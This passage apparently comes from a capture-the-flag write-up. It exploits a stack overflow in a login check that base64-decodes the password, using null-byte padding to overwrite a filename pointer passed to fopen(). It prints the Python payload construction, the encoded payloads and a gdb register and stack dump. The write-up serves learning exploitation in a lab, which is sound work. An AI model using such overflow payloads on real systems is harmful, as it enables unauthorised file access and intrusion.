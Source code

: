 Remember that a colon will be put after `strlen(login)` and the string should be the same than in the library, meaning `  total startup time in dynamic loader: %s cycles` and we still have to overflow the buffer. But how then!?! Use the NULL bytes Luke! Since the password is extracted from `__b64_pton()`, we don't care about parsing stopping at `\x00` like in a `strcpy()` based overflow. The null bytes will be happily extracted to the stack by `__b64_pton` for us :)

Calculating the distance between the controled buffer, the length of our `login` value, we end up with the following padding to trigger the overflow and reach `filename`):

```python
>>> from base64 import b64encode as b64
>>> login = "  total startup time in dynamic loader"
>>> pwd = " %s cycles"+ 203*"\x00"+"\x00\x00\x00\x00\x00\x00\x00\xa8\x02\x40\x00\x00\x00\x00\x00"
>>> b64(str.encode(login))
b'ICB0b3RhbCBzdGFydHVwIHRpbWUgaW4gZHluYW1pYyBsb2FkZXI='
>>> b64(str.encode(pwd))
b'ICVzIGN5Y2xlcwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMKoAkAAAAAAAA=='
```

To get the exact padding (late at night), I attached `gdb` to the python process started by `run.sh` and set a breakpoint at the call to `fopen()` and looked at `rdi` value like in the following:

```console
$ ps aux | grep python
[...]
$ gdb -p $pid
(gdb) set follow-fork-mode child
(gdb) b *0x40131a
Breakpoint 1 at 0x40131a
(gdb) c
Continuing.
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00000000004002a8  →  "/lib64/ld-linux-x86-64.so.2"
$rbx   : 0x0
$rcx   : 0x3d
$rdx   : 0x00000000010fb014  →  0x0000002100000000
$rsp   : 0x00007ffe2160ef50  →  0x00000000010faee0  →  "ICVzIGN5Y2xlcwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbp   : 0x00007ffe2160f190  →  0x00007ffe2160f600  →  0x00000000004016d0  →   endbr64
$rsi   : 0x0000000000402012  →  0x6f43000000000072 ("r"?)
$rdi   : 0x00000000004002a8  →  "/lib64/ld-linux-x86-64.so.2"
$rip   : 0x000000000040131a  →   call 0x401110 <fopen@plt>
$r8    : 0x00007f7cf3a7e3c0  →  0x0002000200020002
$r9    : 0x49
$r10   : 0x00007f7cf3b342f0  →  0x176f0f66c0ef0f66
$r11   : 0x00007f7cf3a6ba20  →  0xeff9c5fa8948f989
$r12   : 0x0000000000401140  →   endbr64
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffe2160ef50│+0x0000: 0x00000000010faee0  →  "ICVzIGN5Y2xlcwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $rsp
0x00007ffe2160ef58│+0x0008: 0x00000000010fad00  →  "ICB0b3RhbCBzdGFydHVwIHRpbWUgaW4gZHluYW1pYyBsb2FkZX[...]"
0x00007ffe2160ef60│+0x0010: 0x00007ffe2160efb0  →  0x0000000000000000
0x00007ffe2160ef68│+0x0018: 0x0000000000000005
0x00007ffe2160ef70│+0x0020: 0x0000000000000001
0x00007ffe2160ef78│+0x0028: 0x0000000000000000
```